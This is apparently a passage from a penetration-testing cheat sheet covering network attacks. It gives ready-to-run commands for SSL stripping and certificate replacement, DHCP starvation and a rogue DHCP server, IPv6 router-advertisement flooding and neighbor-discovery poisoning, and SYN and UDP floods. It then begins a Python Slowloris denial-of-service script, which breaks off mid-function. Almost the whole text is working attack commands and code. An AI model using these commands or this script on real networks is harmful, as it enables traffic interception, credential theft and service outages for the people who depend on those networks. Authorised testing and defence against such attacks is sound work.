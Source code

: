 #### SSL/TLS Interception
```bash
# SSL Strip attack
sslstrip -l 8080
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080

# SSL certificate replacement
mitmproxy -s ssl_replace.py
burpsuite (with CA certificate installation)
```

### 5.2 Network Protocol Attacks

#### DHCP Attacks
```bash
# DHCP starvation
dhcpstarv -i eth0

# DHCP spoofing/rogue DHCP server
dnsmasq --interface=eth0 --dhcp-range=192.168.1.100,192.168.1.200,12h
```

#### IPv6 Attacks
```bash
# IPv6 router advertisement flooding
flood_router6 eth0

# IPv6 neighbor discovery poisoning  
parasite6 eth0

# IPv6 address scanning
alive6 eth0 2001:db8::/64
```

### 5.3 Network Denial of Service Testing

#### Network Layer DoS
```bash
# SYN flood attack
hping3 -S -p 80 --flood target_ip
nping --tcp-connect -p 80 --rate 1000 target_ip

# UDP flood
hping3 -2 -p 53 --flood target_ip
```

#### Application Layer DoS
```python
# Slowloris HTTP DoS attack
import socket
import time
import threading

def slowloris_attack(target_ip, target_port, connections=200):
    sockets = []
    
    for i in range(connections):
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((target_ip, target_port))
            sock.send(b"GET / HTTP/1.1\r\nHost: " + target_ip.encode() + b"\r\n")
            sockets.append(sock)
        except:
            pass
    
```